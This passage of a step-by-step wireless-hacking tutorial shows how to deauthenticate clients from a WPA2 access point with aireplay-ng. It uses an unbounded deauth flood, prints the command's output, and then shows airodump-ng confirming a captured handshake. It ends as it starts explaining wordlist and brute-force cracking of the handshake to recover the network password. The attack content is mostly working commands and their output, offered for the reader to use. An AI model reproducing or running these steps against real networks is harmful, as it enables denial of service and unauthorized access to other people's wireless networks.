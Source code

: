```
$ aireplay-ng -0 0 -a 7C:B1:DF:B9:12:59 wlan0
```

The BSSID we specify is that of the access point. It is possible to limit the amount of deauthentication frames to send, but in this case we are sending an infinite amount specified with `-0 0`.

The output for the `aireplay-ng` command will look like this:

```
03:24:06  Waiting for beacon frame (BSSID: 7C:B1:DF:B9:12:59) on channel 7
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
03:24:06  Sending DeAuth (code 7) to broadcast -- BSSID: [7C:B1:DF:B9:12:59]
03:24:07  Sending DeAuth (code 7) to broadcast -- BSSID: [7C:B1:DF:B9:12:59]
03:24:07  Sending DeAuth (code 7) to broadcast -- BSSID: [7C:B1:DF:B9:12:59]
03:24:08  Sending DeAuth (code 7) to broadcast -- BSSID: [7C:B1:DF:B9:12:59]
03:24:08  Sending DeAuth (code 7) to broadcast -- BSSID: [7C:B1:DF:B9:12:59]
03:24:09  Sending DeAuth (code 7) to broadcast -- BSSID: [7C:B1:DF:B9:12:59]
03:24:09  Sending DeAuth (code 7) to broadcast -- BSSID: [7C:B1:DF:B9:12:59]
03:24:10  Sending DeAuth (code 7) to broadcast -- BSSID: [7C:B1:DF:B9:12:59]
03:24:10  Sending DeAuth (code 7) to broadcast -- BSSID: [7C:B1:DF:B9:12:59]
03:24:11  Sending DeAuth (code 7) to broadcast -- BSSID: [7C:B1:DF:B9:12:59]
03:24:11  Sending DeAuth (code 7) to broadcast -- BSSID: [7C:B1:DF:B9:12:59]
03:24:11  Sending DeAuth (code 7) to broadcast -- BSSID: [7C:B1:DF:B9:12:59]
```

Your terminal screen will continue to fill with these messages. Keep the command running until you see a `WPA handshake: XX:XX:XX:XX:XX:XX` message on the upper right of the first window running the `airodump-ng` command. That window will look as follows (notice the message on the upper right):

```
 CH  7 ][ Elapsed: 1 min ][ 2019-09-28 03:25 ][ WPA handshake: 7C:B1:DF:B9:12:59

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 7C:B1:DF:B9:12:59  -44  96      871       96    0   7  130  WPA2 CCMP   PSK  Lower The Rent

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe

 7C:B1:DF:B9:12:59  49:12:C4:53:EF:4A  -41    1e- 1      0       78
```

If you see the message, you have successfully captured the handshake. The last step left to do now is to crack this handshake and reveal the password in plaintext.

## Cracking the password

Recall that we saved our `airodump-ng` scan to a file named `SCAN_OUTPUT`. You'll see several files in the directory by the same name, but you'll only need the one with a `.cap` extension. From here, there are two approaches to cracking the password. You can use a wordlist and see if one of the passwords in the wordlist is the actual password to the access point, or you can opt to use a program that generates passwords and attempts each one (brute forcing).

First, we'll go over the approach using a wordlist. The command to begin cracking using a wordlist is as follows:
